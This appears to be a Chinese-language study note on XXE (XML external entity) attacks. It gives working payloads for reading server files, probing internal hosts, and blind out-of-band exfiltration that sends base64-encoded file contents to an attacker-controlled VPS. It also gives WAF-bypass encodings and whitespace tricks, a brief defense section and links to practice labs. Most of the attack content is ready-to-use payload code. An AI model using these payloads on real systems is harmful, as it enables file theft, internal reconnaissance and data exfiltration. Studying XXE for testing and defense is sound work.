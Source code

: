 
###  一、xml簡介
一种存储和传输数据的标签语言。xml不适用预定义的标签，因此可以为标记指定描述数据的名称
文档结构：
	xml文档声明，在文档第一行
	xml文档类型定义
	xml文档元素
dtd文档类型定义：（漏洞产生在文档类型定义处，外部声明dtd处）
	![[Pasted image 20231221090308.png]]

### 二、xxe漏洞基础：
 ![[Pasted image 20231221090530.png]]
### 三、xxe漏洞利用：
#### 1、有回显利用：
##### 读取文件：
```xml
<?xml version= "1.0" encoding= "utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY aaa SYSTEM "php://filter/convert.base64-encode/resource=xxe_1.php" >]>
<name>&aaa;</name>



<!ENTITY aaa SYSTEM "php://filter/convert.base64-encode/resource=xxe_1.php" >]>
<!ENTITY aaa SYSTEM "file:///C:/Windows/win.ini" >]>
```
	![[Pasted image 20231221091455.png]]
##### 内网探测：
bp爆破ip的d字段可以探测内网可用主机，bp爆破端口可以探测内网主机开启的端口
```xml
<?xml version= "1.0" encoding= "utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:80">]>
<name>&xxe;</name>
```
	![[Pasted image 20231221091721.png]]

##### 引入外部实体dtd：
```XML
<!--payload-->
<?xml version= "1.0"?>
<!DOCTYPE test[
<!ENTITY % dtd SYSTEM "http://192.168.43.117/eval.dtd">
%dtd;
]>
<name>&send;</name>

<!--eval.dtd-->
<!ENTITY send SYSTEM "file:///C:/windows/win.ini">

在192.168.43.117这台vps上的eval.dtd所在目录开启http服务
python -m http.server 80
```
	![[Pasted image 20231221092209.png]]
	![[Pasted image 20231221092252.png]]



#### 2、无回显利用：
##### 加载外部dtd
```xml
test.dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=C:/windows/win.ini"><!--读取文件存放到file中-->
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://192.168.43.117:8080/?abc=%file;'>"> %payload;<!--将文件作为参数发送请求到我们自己的vps中，最终的数据会存放到我们的访问日志中-->

payload
<?xml version= "1.0"?>
<!DOCTYPE test[
<!ENTITY % dtd SYSTEM "http://192.168.43.117:8080/xxe/test.dtd">
%dtd;
%send;
]>
```
![[Pasted image 20231221101242.png]]
##### 加载外部xml

![[Pasted image 20231221101755.png]]





### 四、xxe漏洞探测
白盒：
simplexml_load_string()函数
黑盒：
1、看content-type类型：是否为application/xml
2、看数据提交格式：抓包看提交数据格式是否类似标签格式
3、contenttype和格式都不是，并且你确定有xxe，就可以改contenttype类型
![[Pasted image 20231221102131.png]]
### 五、xxe-绕过
#### 1、utf-7编码
```
UTF-7编码：

<?xml version= "1.0" encoding= "UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
+ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4
```
#### 2、base64编码
```
<!DOCTYPE test [ <!ENTITY % init SYSTEM

"data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```
#### 3、空格绕过
通常XXE漏洞存在于XML文档的开头，有的WAF会检测XML文档中开头中的某些子字
符串或正则表达式，但是XML格式在设置标签属性的格式时允许使用任何数量的空格，
因此我们可以在<?xml?>或<!DOCTYPE>中插入数量足够多的空格去绕过WAF的检测。
```
<?xml                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    
version= "1.0" encoding= "utf-8"?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert-base64.encode/resource=/flag.txt">
<!ENTITY % remote SYSTEM "http://vps-ip/test.dtd">
%remote;
%dtd;
%xxe;
]>
```

### 六、防御
#### 1、使用开放语言禁用xxe
```php
libxml_disable_entity_loader(true);
```
#### 2、过滤
过滤<!DOCTYPE>, <!ENTITY>, SYSTEM，file://,http:// 等
### 七、练习
```
练习：
1. 无回显利用，pikachu
http://172.168.20.210:84/vul/xxe/xxe_1.php  
2. xxe探测：
黑盒：
    http://172.168.20.210:85/
    http://web.jarvisoj.com:9882/
白盒：
    http://172.168.20.210:8130/
拿shell:
    http://172.168.20.250/(xxe+Struts2漏洞)
```



